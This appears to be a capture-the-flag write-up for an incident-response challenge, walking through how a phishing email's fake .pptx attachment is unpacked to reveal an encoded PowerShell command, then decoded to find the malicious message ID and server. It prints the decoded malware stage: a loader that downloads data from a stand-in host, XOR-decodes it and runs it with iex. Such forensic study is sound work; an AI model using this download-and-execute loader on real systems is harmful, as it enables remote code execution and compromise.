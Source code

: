 # Task 3
With the provided information, OOPS was quickly able to identify the employee associated with the account. During the incident response interview, the user mentioned that they would have been checking email around the time that the communication occurred. They don't remember anything particularly weird from earlier, but it was a few weeks back, so they're not sure. OOPS has provided a subset of the user's inbox from the day of the communication.

Identify the message ID of the malicious email and the targeted server.

Downloads:
- User's emails (emails.zip)

# Solution
1. unzip emails
2. use ripmime to extract all the attachments
	a. for i in *; do ripmime -i $i -d attachment_$i; done;
3. further see what kind of attachments are within each email message
	a. file attachment*/*
4. oh the oopsie_update.pptx is not actually a powerpoint file... it's ASCII text
5. cat oopsie_update.pptx and see a powershell command to an "-enc" which sends a base64 string (which we know because of the "==" at the end
6. use cyberchef to decode the bas64 to see:
	$bytes = (New-Object Net.WebClient).DownloadData('http://xomtq.invalid/analysis')

	$prev = [byte] 173

	$dec = $(for ($i = 0; $i -lt $bytes.length; $i++) {
    		$prev = $bytes[$i] -bxor $prev
    		$prev
	})

	iex([System.Text.Encoding]::UTF8.GetString($dec))
7. we see it is downloading data, but notice that xomtq.invalid doesn't work so we gotta look more into it... we see that we should look at the HEX stream from the 200 HTTP request
8. Booting up VS Code, we need to write a script that takes the hex_val stream and put it into byte format, which we do via unhexlify
9. Next we do the same operation that is being done in the ASCII text from step 6 but in Python
10. Make sure to join all the items in the list and print it out, we get a huge powershell script and output that to fullpowershell.txt and then see at the bottom a POST request sent to http://wtmbi.invalid:8080
11. going back to message_9.eml, I used "head message_9.eml" to find the Message-ID as <161584985300.22130.15351049748726194876@oops.net>
12. Submit Message-ID and domain name to the challenge (wtmbi.invalid) and SUCCESS
